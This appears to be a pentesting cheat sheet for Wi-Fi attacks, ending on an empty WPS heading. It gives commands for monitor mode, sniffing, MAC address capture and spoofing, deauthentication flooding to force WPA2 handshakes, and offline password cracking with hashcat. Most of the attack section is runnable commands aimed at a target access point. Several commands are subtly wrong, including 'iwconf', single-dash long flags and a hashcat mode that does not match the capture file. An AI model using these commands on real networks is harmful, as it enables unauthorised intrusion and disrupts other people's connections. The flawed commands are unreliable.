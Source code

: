 # WiFi

## Monitor mode
Either:   
```
airmon-ng start wlan0
```

Or:  
```
ifconfig wlan0 down
iwconf wlan0 mode monitor
ifconfig wlan0 up
```


## Capture frames
`airodump-ng wlan0mon`

## Capture MAC addresses
To capture the MAC address of clients who have authenticated to the AP:  

`airodump-ng -c <channel> -a -bssid <bssid>`

Where:   
`<channel>` - The Channel that the AP is broadcasting on   
`<bssid>`   - The BSSID of the AP

## Spoof MAC address
Once a MAC address has been determined, the local MAC can be changed. First you need to take down the local adapter:

`ifconfig wlan0 down`

Then you can use `macchanger` to change the MAC address to match the one you captured:

`macchanger -m <mac> wlan0`

Finally, bring the interface back up:

`ifconfig wlan0 up`

## Attacking WPA2-PSK
WPA2-PSK is the most widely used protocol used for securing Wi-Fi, although WPA3 is starting to gain popularity.

To crack WPA2-PSK, the hash of the password must be captured and then cracked offline using a tool like `hashcat`. This passord hash can be captured by sniffing the network traffic until the client sends it to the AP, this can either be done stealthily by waiting or by forcing the client to disconnect from the AP.

The first step is to put the wireless adapter into [monitor mode](#monitor-mode) and then running:

`airodump-ng -bssid <BSSID> -c <channel> --write <file> wlan0mon`

where:   
`<BSSID>`    - The BSSID of the Target AP   
`<channel`   - The Channel the AP is transmitting on   
`<file>`     - A filename used to store the captured handshake   

### Forcing a client to reconnect
If you don't want to wait for a client to connect to capture the password hash, you can force an already connected client to disconnect from the AP. This will cause the client to reconnect, and you can quickly capture the hash:

`aireplay-ng -deauth 100 -a <BSSID> wlan0mon`

where:   
`-deauth 100` - Send 100 deauth frames to the AP   
`<BSSID>`     - The BSSID of the target AP

When the client reconnects, the four way handshake will be captured.

```
CH 11 ][ Elapsed:  3 hours 15 minutes  ][ 2023-02-05 10:27 ] [  WPA Handshake:  12:09:27:00:18:21
```

### Brute force
Now that you have the handshake, you can use a cracking program like `hashcat` to brute-force the password. This can either be done using a dictionary, or by iterating through a series of values.

`hashcat -m 16800 file.cap /user/share/dictionary/passwords.txt`



## Attacking WPS


